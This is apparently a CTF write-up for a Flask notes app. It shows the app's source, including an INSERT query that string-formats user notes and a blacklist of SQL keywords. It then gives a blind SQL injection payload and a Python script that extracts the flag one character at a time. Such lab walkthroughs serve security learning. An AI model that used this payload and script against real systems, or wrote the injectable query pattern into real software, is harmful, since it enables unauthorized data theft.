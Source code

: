 
After starting the CTF instance, we are greeted with a simple registration page. At first glance, this seems like a basic “notes” website where users can register, log in, and input their personal notes. However, as CTF participants, we know things are never that simple, and there’s likely a hidden vulnerability for us to exploit.

The goal of this challenge is to retrieve the flag. To achieve this, we must analyze the provided source code and attempt to exploit any security loopholes.

```python
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
from sqlite3 import Error
import string
import random
import re

class Database:
    def __init__(self, db):
        self.db = db
        try:
            self.conn = sqlite3.connect(self.db, check_same_thread=False)
        except:
            self.conn = None

    def gen_random(self) -> str:
        letters = string.ascii_lowercase
        result_str = ''.join(random.choice(letters) for i in range(15))
        return result_str

    def execute_statement(self, create_table_sql) -> str:
        try:
            c = self.conn.cursor()
            return c.execute(create_table_sql)
        except Error as e:
            return e

    def create_tables(self) -> str:
        create_user_table = '''
            CREATE TABLE IF NOT EXISTS user(
                id integer PRIMARY KEY,
                username text NOT NULL,
                password text NOT NULL
            );
        '''
        create_user_note = '''
            CREATE TABLE IF NOT EXISTS notes(
                username text NOT NULL,
                notes text NOT NULL
            );
        '''
        create_flag_table = '''
            CREATE TABLE IF NOT EXISTS flag(
                flag text NOT NULL
            );
        '''
        if self.conn is not None:
            self.execute_statement(create_user_table)
            self.execute_statement(create_flag_table)
            self.execute_statement(create_user_note)
            return "Tables have been created"
        else:
            return "Something went wrong"

    def insert(self, statement, *args) -> bool:
        try:
            sql = statement
            curs = self.conn.cursor()
            curs.execute(sql, (args))
            self.conn.commit()
            return True
        except:
            return False   

    def select(self, statement, *args) -> list:
        curs = self.conn.cursor()
        curs.execute(statement, (args))
        rows = curs.fetchall()
        result = []
        for row in rows:
            result.append(row)
        return result
```

The application uses an SQLite database for storing users, notes, and the hidden flag. The relevant tables are:

- `user`: Stores the usernames and passwords of registered users.
- `notes`: Stores notes submitted by logged-in users.
- `flag`: Stores the flag we're trying to extract.

The application employs a blacklist of certain SQL keywords (e.g., `exec`, `union`, `join`) to prevent common SQL injection attacks:

```python
def blacklist(string):
    string = string.lower()
    blocked_words = ['exec', 'load', 'blob', 'glob', 'union', 'join', 'like', 'match', 'regexp', 'in', 'limit', 'order', 'hex', 'where']
    for word in blocked_words:
        if word in string:
            return True
    return False
```

### SQL Injection in Notes

```python
query = db.insert("INSERT INTO notes(username, notes) VALUES(?,'%s')" % note, session['username'])
```

### Exploiting the SQL Injection Vulnerability

Testing the application locally, I modified the code to print out the SQL queries being executed:

```python
def insert(self, statement, *args) -> bool:
    try:
        sql = statement
        print(f"Executing SQL Query: {sql}")
        curs = self.conn.cursor()
        curs.execute(sql, (args))
        self.conn.commit()
        return True
    except Exception as e:
        print(f"Error executing query: {e}")
        return False
```

### Blind SQL Injection for Flag Extraction

To extract the flag, I used blind SQL injection:

```sql
' OR SUBSTR((SELECT flag FROM flag), 1, 1) = 'F'
```

### Python Script to Automate Flag Extraction

```python
import requests
import string

base_url = "http://your-instance-url.com/"
register_url = base_url + "register"
login_url = base_url + "login"
add_note_url = base_url

charset = string.digits + string.ascii_letters + "{}_"
flag = ""
position = 1

username = "your_username"  
password = "your_password" 

session = requests.Session()

def login():
    login_data = {"username": username, "password": password}
    response = session.post(login_url, data=login_data)
    if "Welcome" in response.text:
        print("[+] Login successful!")
    else:
        print("[-] Login failed.")
        exit()

def test_char_for_position(char, position):
    payload = f"' OR SUBSTR((SELECT flag FROM flag), {position}, 1) = '{char}"
    data = {"note": payload}
    response = session.post(add_note_url, data=data)

    reflected_values = [val for val in response.text if val in ('0', '1')]

    if reflected_values and reflected_values[-1] == '1':
        print(f"[+] Correct character at position {position}: '{char}'")
        return True
    return False

login()

while True:
    found_char = False
    for char in charset:
        if test_char_for_position(char, position):
            flag += char
            print(f"[+] Flag so far: {flag}")
            position += 1
            found_char = True
            break
    
    if not found_char:
        print("[*] Flag extraction complete!")
        break

print(f"[+] Extracted flag: {flag}")
```

The script maintains a session throughout to avoid logging in for every request, dynamically generates SQL injection payloads for each character and position, and extracts characters one by one until the entire flag is retrieved.

Flag extracted: `FlagY{**********************************}`
